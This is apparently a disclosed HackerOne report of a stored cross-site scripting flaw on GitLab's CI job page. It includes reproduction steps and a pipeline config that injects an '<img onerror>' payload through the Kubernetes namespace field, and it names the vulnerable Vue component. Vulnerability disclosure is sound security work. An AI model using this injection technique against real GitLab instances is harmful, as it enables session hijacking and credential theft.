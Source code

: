 # Stored XSS on the job page

## Report Details
- **Report ID**: 856554
- **URL**: https://hackerone.com/reports/856554
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-04-22T18:25:31.838Z
- **Disclosed**: 2021-01-08T20:38:32.039Z

## Reporter
- **Username**: mike12
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gitlab

## Vulnerability Information
Hello Gitlab!

### Steps to reproduce:
1. Run Gitlab `docker run --detach --hostname gitlab.example.com --publish 443:443 --publish 80:80 --publish 22:22 --name gitlab gitlab/gitlab-ce:latest`
2. Create a new project with README.md
3. Go to Operations->Kubernetes
	1. Click on the "Add Kubernetes cluster" button
	2. Select the "Add existing cluster" tab
	3. Kubernetes cluster name: cluster-example
	4. API URL: https://google.com
	5. Service Token: token-example
	6. Uncheck the "GitLab-managed cluster" checkbox
	7. Click on the "Add Kubernetes cluster" button
4. Add ".gitlab-ci.yml" file to the repository (to the master branch)

    ```
    deploy:
      stage: deploy
      script:
        - echo "Example"
      environment:
        name: production
        url: https://google.com
        kubernetes:
          namespace: <img src=x onerror=alert(1)>
      only:
      - master
    ```
5. Go to CI/CD->Jobs and open the last job
{F799680}
{F799681}

#### Vulnerable code

All vulnerable code is in one file [environments_block.vue](https://gitlab.com/gitlab-org/gitlab/-/blob/c2da59f0376ee8d99ce16100d5c481234bbf9f8a/app/assets/javascripts/jobs/components/environments_block.vue)

1. [Line 125](https://gitlab.com/gitlab-org/gitlab/-/blob/c2da59f0376ee8d99ce16100d5c481234bbf9f8a/app/assets/javascripts/jobs/components/environments_block.vue#L125)
2. [Line 156](https://gitlab.com/gitlab-org/gitlab/-/blob/c2da59f0376ee8d99ce16100d5c481234bbf9f8a/app/assets/javascripts/jobs/components/environments_block.vue#L156)
3. [Line 251](https://gitlab.com/gitlab-org/gitlab/-/blob/c2da59f0376ee8d99ce16100d5c481234bbf9f8a/app/assets/javascripts/jobs/components/environments_block.vue#L251)
4. And other places where `%{kubernetesNamespace}` is used

## Impact

An attacker can:

1. Perform any action within the application that a user can perform
2. Steal sensitive user data
3. Steal user's credentials

## Attachments
- 1.png
- 2.png
